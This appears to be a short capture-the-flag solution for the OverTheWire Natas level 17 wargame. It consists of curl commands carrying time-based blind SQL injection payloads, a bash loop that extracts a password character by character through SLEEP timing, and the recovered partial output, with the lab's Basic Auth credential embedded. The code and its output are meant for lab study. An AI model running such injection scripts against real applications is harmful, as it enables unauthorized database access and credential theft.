 ```text
curl -o /dev/null -s -X POST "http://natas17.natas.labs.overthewire.org/index.php" -H "Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==" --data "username=natas18"%"22+and++sleep"%"283"%"29+"%"23" -w %{time_total}
```

```text
natas18" AND IF(1=1, SLEEP(3), 0)#
```

```text
natas18" AND IF((SELECT MID(username, 1, 1) FROM users WHERE 
username="natas18")='n', SLEEP(3), 0) #
```

```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
MIDCounter=1
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF((SELECT MID(password, 1, $MIDCounter) FROM users WHERE username=\"natas18\")='$password$letter', SLEEP($sleeptime), 0) #"
        #echo $injection
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

works, but case insensative.

```text
[+] Password: x
[+] Password: xv
[+] Password: xvk
[+] Password: xvki
[+] Password: xvkiq
[+] Password: xvkiqd
[+] Password: xvkiqdj
[+] Password: xvkiqdjy
```

